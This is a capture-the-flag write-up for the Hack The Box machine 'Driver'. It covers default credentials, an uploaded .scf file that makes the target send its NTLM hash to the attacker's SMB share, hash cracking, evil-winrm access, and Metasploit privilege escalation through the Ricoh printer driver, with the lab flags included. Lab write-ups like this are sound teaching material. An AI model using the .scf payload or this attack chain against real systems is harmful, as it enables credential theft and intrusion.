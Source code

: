 ```yaml
---
title: 'driver.htb'
date: 2022-06-23
description: 'Writeup for Driver, from HTB.'
---
```

## Enumeration
Initial port enumeration with rustscan revealed the ports 80, 135, 445, and 5985 as open; each running the typical service found on those ports.

Navigation to the machine’s http endpoint revealed a prompt for basic authentication with the realm “MFP Firmware Update Center.” A quick google searched returned the [MFP Server User Manual](http://download.level1.com/level1/manual/MFP_UM.pdf) which details the default login credentials as `admin:admin`.

## Foothold
After authenticating, I’m greeted by a simple web page with a few different directories. All of them redirect to the current page aside from “Firmware Updates” which redirects to the `/fw_up.php` endpoint.

This endpoint exposes a file upload form intended to update printer firmware. Since this is almost certainly a Windows machine with SMB enabled, it’s possible that the path onto this machine will involve capturing a user’s NTLM hash.

After testing some filetypes and realizing that the upload almost certainly accepts any arbitrary file, I upload a file ending in .scf with the following contents:

```text
[Shell]
Command=2
IconFile=\<MY BOX IP>share\test.ico
[Taskbar]
Command=ToggleDesktop
```

I simultaneously also run responder to listen for any SMB traffic and sure enough the machine attempts to load the IconFile resource through SMB on my machine and sends in its NTLM hash. Here’s an abbreviate version of responder’s output:

```text
[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
             Username : DRIVER\tony
             Hash     : <Hash Redacted for Brevity>
```

I pop this NTLMv2 hash into hashcat and throw the rockyou wordlist at it. It promptly returns the user’s password.

Using evil-winrm I’m able to log in as that user and get the first flag.

```text
$ evil-winrm -i driver.htb -u tony  
Enter Password: 

<Evil-WinRM Wall Redacted for Brevity>

*Evil-WinRM* PS C:Users\tonyDocuments> cd ../desktop
*Evil-WinRM* PS C:Users\tonydesktop> cat user.txt
2af2ffb272574074276da10ea3b7e648
```

## Privilege Escalation(s)
While looking around the machine, I find a suspicious directory in `C:\temp\`. Contains a variety of files including .dll files. I pull the readme onto my machine and see that this directory contains files for “PCL6 Driver for Universal Print.”

```text
*Evil-WinRM* PS C:\tempz87179L19disk1> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/28/2019   1:06 PM          43638 Readme.html

<Output Redacted for Brevity>

-a----        6/10/2019   1:17 PM           1862 ricu0nur.dl_
```

A google search shows a functioning Metasploit module to exploit a [privilege escalation vulnerability](https://www.pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/) with this driver.

I create a Metasploit payload with msfvenom and switch over from evil-winrm. I set up the Metasploit privesc and run it but unfortunately the exploit completes without a new session. After some troubleshooting I end up migrating processes before re-running the exploit and it works.

```text
msf6 exploit(windows/local/ricoh_driver_privesc) > run

<Output Redacted for Brevity>

msf6 exploit(windows/local/ricoh_driver_privesc) > sessions
1 meterpreter x86/windows  DRIVER\tony @ DRIVER
2 meterpreter x64/windows  NT AUTHORITYSYSTEM @ DRIVER
```

From here I can load the SYSTEM session and drop into a shell to grab the root flag.

```text
C:Windowssystem32>whoami
whoami
nt authoritysystem
C:UsersAdministratorDesktop>type root.txt
7353d7ff624e80852aad9ae38e6cfe2a
```